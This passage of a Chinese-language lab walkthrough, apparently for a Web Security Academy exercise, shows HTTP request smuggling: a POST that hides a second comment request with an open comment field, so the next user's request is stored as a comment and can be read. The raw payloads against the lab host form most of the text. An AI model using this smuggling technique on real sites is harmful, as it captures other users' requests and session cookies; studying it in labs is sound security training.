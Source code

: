 请求报文 1

```bash
POST / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Connection: keep-live
Content-Length: 631

POST /en/post/comment HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Cookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0
Content-Length: 128
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123%40163.com&website=http%3A%2F%2Fwww.baidu.com&comment=
```

请求报文 2:

```bash
GET /capture-me HTTP/1.1
Host: YOUR-LAB-ID.h1-web-security-academy.net
```

[![](assets/1705301772-f76e92045df0f626a9853acc702cca53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183401-6e90fe64-b2c8-1.png)  
[![](assets/1705301772-f7577c9fda80a27596e5727c2eb6b4b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183411-7483a966-b2c8-1.png)  
回到浏览器刷新博客文章并在评论中可以看到已成功输出"GET /capture"请求的开始  